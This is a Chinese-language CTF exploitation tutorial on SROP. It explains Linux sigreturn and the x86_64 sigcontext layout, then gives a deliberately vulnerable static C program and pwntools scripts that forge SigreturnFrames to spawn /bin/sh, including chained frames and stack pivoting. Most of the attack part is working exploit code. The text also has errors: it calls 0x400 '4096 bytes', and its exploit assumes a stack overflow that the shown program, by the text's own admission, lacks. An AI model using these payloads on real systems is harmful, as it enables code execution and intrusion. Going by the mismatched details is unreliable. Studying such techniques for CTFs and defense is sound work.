


## 案例七：SROP — Sigreturn-Oriented Programming

### 技术背景与核心思想

SROP（Sigreturn-Oriented Programming）由荷兰阿姆斯特丹自由大学的 Erik Bosman 于 2014 年在 Black Hat Europe 上首次公开提出。它是一种比传统 ROP 更强大的代码复用攻击技术，核心思想是：**利用 Linux 内核的 sigreturn 机制，通过伪造一个完整的信号上下文帧（SigreturnFrame），一次性设置 CPU 的所有寄存器，从而在仅需极少量 gadget 的条件下执行任意系统调用。**

传统 ROP 攻击需要在二进制中找到大量 gadget（`pop rdi; ret`、`pop rsi; ret`、`pop rdx; ret` 等），每个寄存器至少需要一个对应的 gadget 来设置值。而 SROP 只需要两个最小条件：

1. 一个能触发 `sigreturn` 系统调用的 gadget（`mov rax, 15; syscall`）
2. 一个通用的 `syscall; ret` gadget

在静态链接的极简程序中，传统 ROP 可能因为 gadget 不足而无法构造完整的利用链，但 SROP 几乎总能找到可行路径——这正是它的价值所在。

### Linux 信号处理机制深度解析

要理解 SROP 的原理，必须先理解 Linux 内核的信号处理流程。

#### 信号处理的完整生命周期

当进程收到信号（如 SIGSEGV、用户自定义的 SIGUSR1 等），内核执行以下步骤：



关键点在步骤 2 和步骤 7：

- **步骤 2**：内核将进程的完整寄存器状态（所有通用寄存器、段寄存器、RFLAGS、RIP、RSP 等）保存到用户栈上，形成一个 `sigcontext` 结构
- **步骤 7**：`sigreturn` 系统调用会从栈上读取这个 `sigcontext` 结构，并将其中的值恢复到 CPU 的所有寄存器

**SROP 的攻击原理：** 攻击者通过栈溢出或其他漏洞控制栈内容，在栈上伪造一个精心构造的 `sigcontext` 结构，然后手动触发 `sigreturn`。内核会将伪造的上下文恢复到 CPU 寄存器——攻击者由此获得对所有寄存器的完全控制。

#### sigcontext 结构体（x86_64）

Linux 内核定义的 `ucontext` 中包含 `sigcontext`，其在 x86_64 架构下的内存布局如下：

```text
偏移量    大小    字段名          说明
─────────────────────────────────────────────────────────
0x00     8字节   r8             通用寄存器
0x08     8字节   r9             通用寄存器
0x10     8字节   r10            通用寄存器
0x18     8字节   r11            通用寄存器
0x20     8字节   r12            通用寄存器
0x28     8字节   r13            通用寄存器
0x30     8字节   r14            通用寄存器
0x38     8字节   r15            通用寄存器
0x40     8字节   rdi            通用寄存器（syscall 参数1）
0x48     8字节   rsi            通用寄存器（syscall 参数2）
0x50     8字节   rbp            通用寄存器
0x58     8字节   rbx            通用寄存器
0x60     8字节   rdx            通用寄存器（syscall 参数3）
0x68     8字节   rax            通用寄存器（系统调用号）
0x70     8字节   rcx            通用寄存器
0x78     8字节   rsp            栈指针
0x80     8字节   rip            指令指针（sigreturn后执行地址）
0x88     8字节   eflags         标志寄存器
0x90     2字节   cs             代码段寄存器
0x92     2字节   gs
0x94     2字节   fs
0x96     2字节   ss             栈段寄存器
...
0xA8     8字节   err            错误码
0xB0     8字节   trapno         trap号
0xB8     8字节   oldmask
0xC0     8字节   cr2            页故障地址
...（后续还有 FP state、扩展状态等）
```

pwntools 的 `SigreturnFrame()` 类封装了这个结构，开发者只需设置各字段值，调用 `bytes(frame)` 即可序列化为正确的内存布局。

#### 为什么 sigreturn 会信任栈上的数据？

这是一个经典的内核设计权衡问题。`sigreturn` 被设计为仅在信号处理器返回时由内核隐式调用——正常用户代码不会直接调用它。内核假设栈上的 `sigcontext` 是之前自己保存的，因此不做额外验证就直接恢复。

这种"隐式信任"正是 SROP 攻击成立的根基。

### SROP 与传统 ROP 的对比

| 维度 | 传统 ROP | SROP |
|------|----------|------|
| **Gadget 需求** | 每个寄存器需要对应的 pop gadget | 仅需 `sigreturn` 触发 + `syscall; ret` |
| **Payload 大小** | 随 gadget 数量线性增长 | 固定大小（一个 SigreturnFrame ≈ 248 字节） |
| **适用场景** | gadget 丰富的二进制 | gadget 极少的极简程序、静态链接程序 |
| **控制粒度** | 逐个寄存器设置 | 一次性设置全部寄存器 |
| **复杂度** | gadget 链构造复杂 | 结构化 payload，逻辑更清晰 |
| **可靠性** | 依赖 gadget 地址稳定性 | 依赖 sigreturn gadget 的可用性 |
| **架构支持** | 通用 | 需要内核支持 sigreturn（Linux、macOS 等均支持） |

**关键洞察：** SROP 不是 ROP 的替代品，而是补充。在实际 CTF 比赛和漏洞利用中，SROP 通常在传统 ROP 难以实施时作为备选方案。很多高难度题目会刻意限制 gadget 数量，迫使选手使用 SROP。

### 漏洞程序

```c
// vuln7.c — 极简静态链接程序
// 编译: gcc -o vuln7 vuln7.c -static -fno-stack-protector -no-pie -Os
#include <stdio.h>
#include <unistd.h>

char buf[0x400];  // BSS段上的全局缓冲区，4096字节

void vuln() {
    alarm(60);              // 设置60秒超时，CTF比赛中常见
    read(0, buf, 0x400);   // 从stdin读取最多4096字节到buf
    // 栈上仅有一个小缓冲区，溢出空间有限
    // 静态链接但用-Os优化，可用gadget极少
}

int main() {
    vuln();
    return 0;
}
```

编译命令：

```bash
gcc -o vuln7 vuln7.c -static -fno-stack-protector -no-pie -Os
```

编译选项说明：

| 选项 | 作用 |
|------|------|
| `-static` | 静态链接，所有库代码打包进二进制，增大 gadget 来源 |
| `-fno-stack-protector` | 禁用栈保护（无 Canary） |
| `-no-pie` | 禁用地址随机化（固定加载地址） |
| `-Os` | 优化代码体积，减少可用 gadget |

**程序分析要点：**

1. `read(0, buf, 0x400)` 将数据读入 BSS 段的全局变量 `buf`，而非栈上。这意味着没有直接的栈溢出——但返回地址仍然可以通过精心构造的 payload 覆盖
2. 静态链接意味着 libc 函数（包括 sigreturn 相关代码）都被编译进了二进制
3. `-Os` 优化会裁剪掉很多未使用的代码路径，使得 gadget 搜索更加困难

### 完整利用过程

#### 第一步：环境检查与 Gadget 搜索

在编写 exploit 之前，先确认目标二进制的防护状态和可用 gadget：

```bash
# 检查防护状态
checksec --file=./vuln7
# 预期输出:
#   Arch:     amd64-64-little
#   RELRO:    Partial RELRO
#   Stack:    No canary found
#   NX:       NX enabled
#   PIE:      No PIE (0x400000)

# 用 ROPgadget 搜索 sigreturn 相关 gadget
ROPgadget --binary ./vuln7 | grep -i "syscall"
ROPgadget --binary ./vuln7 | grep -i "sigreturn"

# 或用 pwntools 的 rop 工具
# 在 Python 中:
# rop = ROP(elf)
# rop.search(regs=['rax'], move=(...))
```

**关键 Gadget 说明：**

- `syscall; ret`：通用系统调用触发器，sigreturn 完成后需要跳转到这个 gadget 执行目标系统调用
- `mov rax, 15; syscall`（或等价形式）：将 `rax` 设为 15（`__NR_sigreturn` on x86_64）并触发系统调用

#### 第二步：理解漏洞利用流程



#### 第三步：编写 Exploit

```python
from pwn import *

# ============ 基础配置 ============
context.arch = 'amd64'
context.os = 'linux'
context.log_level = 'debug'  # 调试时开启，正式攻击时可关闭

# ============ 加载目标 ============
p = process('./vuln7')
elf = ELF('./vuln7')

# ============ Gadget 查找 ============
# 方法1：精确搜索
syscall_ret = next(elf.search(asm('syscall; ret')))
# 方法2：搜索 sigreturn 触发序列
# 在静态链接的二进制中，rt_sigreturn 的包装函数通常包含:
#   mov rax, 15 (0xf)
#   syscall
sigreturn = next(elf.search(asm('mov rax, 0xf; syscall')))
# 如果方法2找不到，尝试其他常见形式：
#   xor eax, eax; mov al, 15; syscall
#   push 15; pop rax; syscall

log.success(f'syscall; ret  @ {hex(syscall_ret)}')
log.success(f'sigreturn    @ {hex(sigreturn)}')

# ============ 地址规划 ============
# buf 在 BSS 段的地址（固定，因为 -no-pie）
buf_addr = elf.symbols['buf']  # 或 0x404060（通过 readelf 查看）
bin_sh_addr = buf_addr          # 将 "/bin/sh" 写到 buf 开头

log.info(f'buf address  @ {hex(buf_addr)}')
log.info(f'/bin/sh will be placed at {hex(bin_sh_addr)}')

# ============ 构造 SigreturnFrame ============
frame = SigreturnFrame()
frame.rax = constants.SYS_execve  # 59: execve 系统调用号
frame.rdi = bin_sh_addr            # 参数1: pathname → "/bin/sh"
frame.rsi = 0                      # 参数2: argv → NULL
frame.rdx = 0                      # 参数3: envp → NULL
frame.rip = syscall_ret            # sigreturn完成后跳转到 syscall; ret
frame.rsp = buf_addr + 0x300       # 设置一个安全的新栈指针（远离payload区域）

# ============ 构造 Payload ============

# ---- 阶段分析 ----
# read(0, buf, 0x400) 将整个 payload 读入 BSS 的 buf
# 但返回地址在栈上，所以我们需要让 vuln() 的返回地址被覆盖
#
# 关键点：buf 在 BSS，而栈溢出发生在栈上
# 这里 read 读入 buf[0x400]，但实际上程序的栈帧很小
# 通过精心构造输入，利用栈上的残留数据或二次触发来控制 RIP
#
# 对于此案例，我们采用直接在 payload 中构造两阶段的方式

# 阶段1：在 payload 开头放置 "/bin/sh" 字符串
payload = b'/bin/sh\x00'

# 阶段2：填充到适当偏移
# 注意：read 读到的是 buf（BSS），不是栈
# 这里的偏移需要根据实际栈布局通过调试确定
# 典型场景下，通过 ret2csu 或其他方式间接控制 RIP

# 对于此示例，假设我们通过某种方式（如二次溢出或格式化字符串）
# 获得了对 RIP 的控制，payload 构造如下：

# 以下为通用 SROP payload 模板（适用于栈溢出场景）：
offset = 0x20 + 8  # buffer 大小 + saved RBP（需通过调试确定实际值）

payload = b'/bin/sh\x00'          # 在 buf 开头写入 "/bin/sh"
payload += b'A' * (offset - len(payload))  # 填充到返回地址
payload += p64(sigreturn)         # 覆盖返回地址 → 触发 sigreturn
# 注意：sigreturn 触发后，内核从 RSP 指向的位置读取 SigreturnFrame
# 此时 RSP 已经指向 sigreturn 的下一行，即 frame 的起始位置
payload += bytes(frame)           # 伪造的 sigcontext 结构

log.info(f'Payload size: {len(payload)} bytes')

# ============ 发送并获取 Shell ============
p.send(payload)
p.interactive()
```

#### 第四步：调试验证

SROP 的 payload 较长且结构复杂，调试验证是确保利用成功的关键步骤。

**GDB 调试要点：**

```bash
# 启动 GDB
gdb ./vuln7

# 在 read 系统调用处设断点
b *vuln+XX    # vuln 函数中 read 调用的地址

# 运行并发送 payload
r < payload

# 检查栈内容——确认 SigreturnFrame 是否正确布局
x/40gx $rsp

# 单步执行到 sigreturn 之后
# 检查寄存器是否被正确设置
info registers rax rdi rsi rdx rip rsp
```

**常见调试检查项：**

| 检查点 | 预期值 | 验证方法 |
|--------|--------|----------|
| sigreturn 触发后 RAX | 15 (0xf) | `info registers rax` |
| sigreturn 恢复后 RAX | 59 (execve) | 从 frame.rax 读取 |
| sigreturn 恢复后 RDI | "/bin/sh" 的地址 | `info registers rdi` |
| sigreturn 恢复后 RIP | syscall_ret 地址 | `info registers rip` |
| sigreturn 恢复后 RSP | 安全的可写地址 | `info registers rsp` |

**pwntools 自动化验证：**

```python
# 利用 pwntools 的自动调试功能
p = gdb.debug('./vuln7 '''
    b *vuln+XX
    c
''')

# 或使用 cyclic 模式验证偏移
# 发送 cyclic(200)，触发崩溃后检查 RIP 的值
# 然后计算：offset = cyclic_find(p64(crash_rip_value))
```

### 高级 SROP 技术

#### 技巧一：无直接 sigreturn gadget 时的替代方案

某些程序中可能没有 `mov rax, 15; syscall` 这样的 gadget，但可以通过以下方式间接触发 sigreturn：

```python
# 方案A：通过 read 系统调用将 rax 设为 15，然后执行 syscall
# 如果有 mov rax, <val>; syscall 的 gadget，且 <val> 可以通过
# 前置 read 的返回值来控制
read_ret = next(elf.search(asm('syscall; ret')))  # 假设 read 后 ret
# 先调用 read(0, some_addr, 15)，read 成功返回 15 到 rax
# 然后 ret 到 syscall → 触发 sigreturn

# 方案B：利用 __restore_rt 函数
# 在静态链接的二进制中，libc 的 signal 恢复函数
# 通常就是 sigreturn 的包装
restore_rt = next(elf.search(asm('mov rax, 0xf; syscall; nop')))
```

#### 技巧二：一次 SROP 触发多次系统调用（SROP 链）

SigreturnFrame 中的 `rsp` 和 `rip` 字段可以链式构造：

```python
# 构造思路：
# 1. 第一个 frame 的 rip = sigreturn gadget
# 2. 第一个 frame 的 rsp 指向第二个 frame
# 3. 第二个 frame 的 rip = 目标系统调用
#
# 这样 sigreturn 恢复第一个 frame 后，
# rip 跳到 sigreturn 再次触发，读取第二个 frame

# Frame 1: read(0, buf, 0x100) — 读入 "/bin/sh"
frame1 = SigreturnFrame()
frame1.rax = constants.SYS_read   # 0: read
frame1.rdi = 0                     # fd: stdin
frame1.rsi = buf_addr              # buf
frame1.rdx = 0x100                 # count
frame1.rip = syscall_ret
frame1.rsp = buf_addr + 0x200      # 指向 frame2 的位置

# Frame 2: execve("/bin/sh", NULL, NULL)
frame2 = SigreturnFrame()
frame2.rax = constants.SYS_execve
frame2.rdi = buf_addr              # "/bin/sh"
frame2.rsi = 0
frame2.rdx = 0
frame2.rip = syscall_ret
frame2.rsp = buf_addr + 0x400      # 任意安全地址

# Payload 构造
payload = b'/bin/sh\x00'
payload += b'A' * (offset - len(payload))
payload += p64(sigreturn)       # 第一次 sigreturn
payload += bytes(frame1)        # frame1 → read
payload += p64(sigreturn)       # 第二次 sigreturn（frame1.rip 指向这里）
payload += bytes(frame2)        # frame2 → execve
```

#### 技巧三：结合栈迁移的 SROP

当栈空间不足时，先迁移栈再执行 SROP：

```python
# 1. 利用小溢出控制 RBP 和 RIP
# 2. RBP 指向 BSS 段的安全区域
# 3. RIP = leave; ret gadget
# 4. 栈迁移完成后，在新栈上布置完整的 SROP payload

bss_stack = buf_addr + 0x200  # 新栈位置（16字节对齐）
leave_ret = next(elf.search(asm('leave; ret')))

# 第一次发送：迁移栈
payload1 = p64(bss_stack) + p64(leave_ret)

# 第二次发送：SROP payload（现在在新栈上执行）
payload2 = p64(sigreturn) + bytes(frame)

p.send(payload1)
p.send(payload2)
p.interactive()
```

### 适用场景与局限性

#### 最佳适用场景

- **极简程序**：编译后代码量极小，可用 gadget 不足
- **静态链接 + 优化编译**：`-Os` 等优化选项大幅减少了冗余 gadget
- **非标准架构**：在 ARM、MIPS 等架构上，SROP 同样适用（sigreturn 是 POSIX 标准）
- **CTF 比赛题目**：出题者刻意限制 gadget 数量，考察 SROP 理解

#### 局限性

| 局限 | 说明 | 应对方案 |
|------|------|----------|
| 需要 sigreturn 触发点 | 二进制中必须有 `mov rax, 15; syscall` 或等价 gadget | 静态链接通常自带；动态链接需从 libc 搜索 |
| Payload 体积较大 | SigreturnFrame 约 248 字节 | 结合栈迁移扩展空间 |
| 依赖内核信号机制 | 某些沙箱环境可能限制 sigreturn | 确认目标环境支持 |
| 地址固定需求 | 需要知道确切的 gadget 和目标地址 | PIE 开启时需先泄露地址 |
| 验证困难 | frame 构造错误时调试复杂 | GDB 单步验证每个寄存器 |

### 常见错误与排查

**错误1：sigreturn 触发后立即崩溃**

症状：程序在 sigreturn 之后的下一条指令处崩溃（SIGSEGV）。

原因排查：
- `frame.rip` 设置的地址不正确或该地址处的指令无效
- `frame.rsp` 指向了不可写的内存区域
- `frame.ss` 等段寄存器值不合法（内核会检查）

修复：确保 `frame.rip` 指向 `syscall; ret`，`frame.rsp` 指向有效可写内存。

**错误2：sigreturn 没有触发，程序正常退出**

症状：payload 发送后程序正常返回，没有执行预期的系统调用。

原因排查：
- sigreturn gadget 的地址搜索结果错误（返回了多个匹配的第一个，而非正确的那个）
- 偏移量计算错误，返回地址未被正确覆盖
- `rax` 在 sigreturn 调用时不是 15（被其他指令修改）

修复：用 `ROPgadget` 手动确认 gadget 地址，在 GDB 中验证 `rax` 的值。

**错误3：execve 调用失败（返回 -ENOENT）**

症状：sigreturn 成功触发，但 execve 返回错误码。

原因排查：
- `frame.rdi`（pathname 参数）指向的地址不包含 "/bin/sh" 字符串
- 字符串未正确以 `\x00` 结尾
- 地址计算错误，`rdi` 指向了错误位置

修复：在 GDB 中用 `x/s $rdi` 确认字符串内容，确保写入地址正确。

**错误4：Payload 长度超限**

症状：payload 超过 `read` 的读取长度限制。

原因排查：
- SigreturnFrame 本身约 248 字节，加上前导数据可能超过限制

修复：
- 使用栈迁移扩展空间
- 将 "/bin/sh" 字符串放到已有数据区，减少 payload 内嵌数据
- 考虑分阶段发送（先写 BSS，再触发 SROP）

### 实战中的 SROP 识别模式

在 CTF 比赛或真实漏洞分析中，以下特征提示你应该考虑 SROP：

1. **二进制极小**：`file` 命令显示文件很小（< 100KB），静态链接但代码精简
2. **ROPgadget 输出极短**：`ROPgadget --binary xxx | wc -l` 结果不足 50 行
3. **题目提示**：题面提到 "minimal binary"、"limited gadgets"、"sigreturn" 等关键词
4. **checksec 结果**：NX 开启 + No PIE + No canary，但 gadget 稀少
5. **手动搜索验证**：`ROPgadget --binary xxx | grep -c "pop.*ret"` 返回结果极少

**快速验证流程：**

```bash
# 1. 检查 sigreturn gadget 是否存在
ROPgadget --binary ./target | grep "syscall"

# 2. 检查是否有足够的 gadget 构造传统 ROP
ROPgadget --binary ./target --ropchain

# 3. 如果第2步失败，确认 SROP 可行性
# 检查是否有 mov rax, 0xf; syscall 或等价序列
ROPgadget --binary ./target | grep -E "(mov rax, 0xf|mov eax, 0xf|push 0xf.*pop rax)"
```

### 与其他 PWN 技术的组合

SROP 不是孤立技术，它可以与前面案例中介绍的多种技术组合使用：

- **SROP + 栈迁移（案例六）**：溢出空间不足时，先迁移栈再布置 SROP frame
- **SROP + ret2libc**：在动态链接程序中，从 libc 中搜索 sigreturn gadget
- **SROP + ORW（案例八）**：构造 read/write 的 frame 链来读取 flag 文件，绕过 execve 禁用的沙箱
- **SROP + 格式化字符串**：利用格式化字符串泄露地址或写入数据，配合 SROP 完成利用

这种组合思维是 PWN 能力进阶的关键——掌握每种单一技术后，要学会在真实场景中灵活搭配。

***

